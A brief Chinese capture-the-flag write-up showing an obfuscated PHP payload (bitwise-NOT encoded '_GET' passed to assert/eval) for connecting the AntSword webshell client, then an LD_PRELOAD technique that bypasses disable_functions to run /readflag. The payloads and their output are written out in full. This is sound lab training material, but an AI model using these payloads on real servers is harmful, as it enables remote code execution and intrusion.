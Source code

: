 是linux可执文件

连接蚁剑 payload :

```
?code=$_=(~%A0%B8%BA%AB);$$_{%27__%27}($$_{%27_%27});&__=assert&_=eval($_POST['cmd'])
```

应该是要绕过disable_function,从而执行readflag，项目地址

```
https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD
```

只有/tmp有文件修改权限，上传`bypass_disablefunc.php、bypass_disablefunc_x64.so、bypass_disablefunc_x86.so`到/tmp下

最后payload:

```
?code=$_=(~%A0%B8%BA%AB);$$_{%27__%27}($$_{%27_%27});&__=assert&_=include "/tmp/bypass_disablefunc.php"&cmd=/readflag&outpath=/tmp/xx&sopath=/tmp/bypass_disablefunc_x64.so
```

输出为

```
 example: http://site.com/bypass_disablefunc.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass_disablefunc_x64.so

cmdline: /readflag > /tmp/xx 2>&1

output:
flag{6e16639a-9eca-45b8-a972-e61da4146393}
```

